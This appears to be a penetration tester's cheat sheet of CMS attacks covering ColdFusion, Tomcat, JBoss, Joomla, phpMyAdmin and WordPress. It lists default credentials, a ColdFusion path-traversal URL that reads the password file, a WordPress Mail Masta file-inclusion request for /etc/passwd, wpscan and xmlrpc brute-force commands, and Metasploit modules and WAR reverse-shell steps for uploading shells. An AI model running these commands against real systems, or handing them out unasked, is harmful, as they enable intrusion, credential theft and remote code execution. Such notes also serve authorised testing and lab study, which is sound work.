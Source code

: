 # CMS Specific Vulnerabilities and Exploits    
### Default Creds 

    https://cirt.net/passwords
    https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
    
### Adobe Coldfusion 
https://nets.ec/Coldfusion_hacking   
https://www.drchaos.com/post/a-walk-down-adversary-lane-coldfusion-v8

    Metasploit - Determine version
    /CFIDE/adminapi/base.cfc?wsdl
    Version 8 Vulnerabilities
    Fckeditor: use exploit/windows/http/coldfusion_fckeditor

LFI 

    http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

### Elastix 

    default login are admin:admin at /vtigercrm/
    able to upload shell in profile-photo
    Examine configuration files - Generic
    Examine httpd.conf/ windows config files 
    
### Drupal
[droopsescan](https://github.com/droope/droopescan) 

    /CHANGELOG.txt to find version

### JBoss

    JMX Console http://IP:8080/jmxconcole/
    WAR File payload   

### Jenkins
[pwn jenkins](https://github.com/Scr1ptK1ddie/pwn_jenkins)   

### Joomla 

    admin page: /administrator
    other pages: configuration.php, diagnostics.php, joomla.inc.php, config.inc.php   
    
### PHPMyAdmin

    Default password root:root, pma:
    Brute force with Burp or phpmyadmin python script

### Tomcat 

    Usually port 8080, /manager
    default creds tomcat:s3cret
    generate WAR reverse shell payload, upload and deploy 
    
### Wordpress  
https://github.com/wpscanteam/wpscan/wiki/WordPress-Plugin-Security-Testing-Cheat-Sheet    
https://raphaelrichard-sec.fr/learning-notes/hacking-wordpress     
[Hacking Wordpress Notes](https://github.com/cyberteach360/Hacking-Wordpress)    
.wp-config.php.swp exploit - https://ritcsec.wordpress.com/2020/04/28/how-i-accidentally-discovered-cve-2017-17087-2/         

    admin and login pages:  /wp-admin    /wp-login     /wp-admin/login.php   /login.php    /wp-login.php     
    config files:  /setup-config.php   /wp-config.php    
    curl http://10.10.10.10/wordpress/ | grep 'content="WordPress'  #get WordPress version   
    curl -s -X GET http://10.10.10.10/wordpress | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2    #get plugins     
    curl -s -X GET http://10.10.10.10 | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2   #get themes    
    curl http://10.10.10.10/wp-json/wp/v2/users | jq    #user enum   
wpscan 
Register for a free account and get an API token from https://wpscan.com/    

    wpscan --url <domain>
    wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)
    wpscan --url <domain> --enumerate u (Usernames)       #or zoom.py 
    wpscan --url <domain> --enumerate v      
    wpscan --url http://10.10.10.10/wordpress --enumerate --api-token <API_TOKEN>
    wpscan -u 192.168.0.15 --enumerate -t --enumerate u --enumerate p      

Bruteforce login page with wpscan   
Xmlrpc method is usually faster (if enabled)       

    wpscan --url ipaddress --usernames name_list --passwords wordlist    
    wpscan --password-attack xmlrpc -t 20 -U admin, username -P passwords.txt --url http://10.10.10.10           


Xmlrpc.php - if enabled you may be able to use this to brute force creds. Send the below request to check    
If wp.getUserBlogs, wp.getCategories or metaWeblog.getUsersBlogs are available - can brute force    
Ref: https://gist.github.com/georgestephanis/5681982    
```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 10.10.10.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Upgrade-Insecure-Requests: 1
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```   
Vulnerable Mail Masta Plugin Exploit        

    curl http://10.10.10.10/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd     
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd    
    
RCE via Theme Editor using Admin Creds    
Login, select Appearance on the side panel and select Theme Editor to modify the PHP source code. Select an inactive theme to avod breaking the main theme.       

    exploit/unix/webapp/wp_admin_shell_upload    #metasploit exploit   
